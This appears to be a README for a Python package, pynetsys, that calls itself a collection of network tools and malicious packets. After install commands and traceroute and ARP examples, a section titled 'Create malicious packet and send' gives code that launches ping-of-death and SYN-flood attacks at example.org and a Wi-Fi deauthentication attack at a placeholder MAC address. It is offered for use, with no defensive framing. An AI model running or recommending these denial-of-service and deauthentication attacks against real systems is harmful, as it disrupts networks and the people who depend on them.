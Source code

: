 # PYNETSYS

pynetsys is a collection of tools and malicious packets..

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```